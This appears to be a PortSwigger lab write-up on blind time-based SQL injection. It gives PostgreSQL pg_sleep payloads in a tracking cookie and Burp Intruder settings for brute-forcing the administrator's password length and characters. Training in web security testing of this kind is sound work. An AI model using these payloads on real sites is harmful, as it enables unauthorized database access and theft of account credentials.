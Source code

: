 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/906132fb-aaaa-40a2-8bae-549e655fd736)


## Solution :

query made--

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

#### Checking that it is vulnerable to blind sql injection  -

query changed--

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'' || pg_sleep(10)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a7e55875-624d-40cb-90b4-3ca17314936b)

Time delay of `20717`. SO it is vulnerable to blind sql injection.

#### Confirm that user table  present in the database-

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(-1)END)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/678c0f24-fda6-40a5-a46a-60009b68ba05)

Time delay of `15990`.so it is valid query so now we can find whether user table  present in the database or not.here we used the negtive number `-1` because when it is false it won't cause any delay.

when i changed the value from `1=1` to `1=0` it should not cause any dealy lets check if it coming correct or not.

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'' || (SELECT CASE WHEN (1=0) THEN pg_sleep(10) ELSE pg_sleep(-1)END)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/6570c398-8a56-495b-babe-c345920f734c)

Time delay of `725` which is very much less 10 sec and it didn't cause any delay.So it is valid query so now we can find whether user table  present in the database or not.

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''|| (SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(-1)END FROM users)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/0883964a-228a-4954-a7ec-ed0777a7973d)

Time delay of `12559`.which is larger than 10 sec so now we know user table  present in the database.

#### finding the length of the password--

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''|| (SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(-1)END FROM users)--
```
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/50b23f29-6c26-4305-b909-b878d2861c94)

Time delay of `10719`.which is larger than 10 sec. So condition is true  length of the password is larger than `1`

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''|| (SELECT CASE WHEN (username='administrator' AND LENGTH(password)>25) THEN pg_sleep(10) ELSE pg_sleep(-1)END FROM users)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4377c941-63fc-4134-ac0e-7ead36eba660)

Time delay of `725` which is less 10 sec. So condition is false  length of the password is smaller than `25`

```To find the length of the password send qury to  Intruder then and Add the password length part as payload and select attack type as SNIPER .Then go to  payload sleect payload type as numbers after that set from 1 to 25 and start the attack ```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''|| (SELECT CASE WHEN (username='administrator' AND LENGTH(password)>$1$) THEN pg_sleep(10) ELSE pg_sleep(-1)END FROM users)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4829c5e2-08cf-478a-8ee1-75f04dc10515)

`we also remove the default resource pool because it mess up with my time based sql injection code by adding create new resource pool and  tick the maximum concentration requests and set it as 1 and start attack.`

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/dd630b58-8799-4026-88e8-d80c852a0f10)

`After completing the attack go to coloum then click on response received`.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/69105943-3741-46f4-8db4-c82c963c8d82)

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/1f46ac1b-5841-4e3c-b826-29df928c0ca5)

From 20 onwards the Time delay is less than 10.So we can say that the length of the password is `20`

#### finding the password--

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''|| (SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='a')  THEN pg_sleep(10) ELSE pg_sleep(-1)END FROM users)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/29c51a3a-d7df-458e-afb4-c3c2dc21d484)

Time delay of `729` which is less 10 sec. So condition is false which means that a is not the first charactor of the password.

```To find the password send qury to  Intruder then and Add postion of password as payload1 and the string part as payload2 and select attack type as cluster bomb .Then go to  payload select payload1 type as numbers and set to 1 to 20 and select payload2 as  bruteforce set min and max =1  and also remove the default resource pool because it mess up with my time based sql injection code by adding create new resource pool and  tick the maximum concentration requests and set it as 1 and start attack. ```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''|| (SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,$1$,1)='$a$')  THEN pg_sleep(10) ELSE pg_sleep(-1)END FROM users)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/cb0dc217-0dd1-4346-b30c-32d38eb2dd19)

 20 charactor password and there Time delay is larger than 10.payload 1 represents the order and payload2 represents the each charactor password.
 
![Screenshot 2024-02-06 023421](https://github.com/ananthan05/Portswigger_labs/assets/140697378/be25f0a5-4a1e-4c42-8a96-08ed4ce71d0f)

Araange the payload2 characters according to the payload1 numbers in the correct order .

Password  = `uzyksqlhkspbxvs9x9l1`

Successfully logged in administrator.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/ea93470e-b3d1-4274-8181-8ef6d6690962)



















